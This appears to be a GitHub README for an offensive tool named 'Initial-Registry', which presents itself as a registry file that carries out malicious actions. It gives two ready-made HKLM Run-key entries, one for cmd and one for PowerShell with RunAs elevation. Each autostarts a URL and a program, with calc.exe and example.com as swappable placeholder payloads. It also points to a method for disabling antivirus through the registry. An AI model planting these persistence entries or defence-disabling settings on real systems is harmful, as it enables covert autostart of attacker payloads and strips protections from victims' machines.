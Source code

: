 # Initial-Registry
It is a registry file that performs malicious activities when the refresh button is pressed, Such as start a malicious link, making an execution for payload, or running a malicious command line in CMD or PowerShell
![1706749031823](https://github.com/S3N4T0R-0X0/Initial-Registry/assets/121706460/f5c7acd0-77a2-4410-80c4-4f8c095e7dee)

Specifically through the registry.

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"TaskManagerURL"="cmd /c start http://www.example.com && calc.exe"

The harmful activities are carried out through the CMD, but the operator may also need to execute these activities from the PowerShell and not the CMD, which is why I put this other registry as an alternative to the CMD.

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"TaskManagerURL"="powershell -Command \"Start-Process 'http://www.example.com'; Start-Process 'calc.exe' -Verb RunAs\""


https://github.com/S3N4T0R-0X0/Initial-Registry/assets/121706460/6e5b2591-3953-4a6b-b05f-81a405e8bf80

I used this site for resources to desible defenses through the Windows registry by setting Windows Registry  Activity in the disable.txt

https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/windows-persistence/#disable-antivirus-and-security


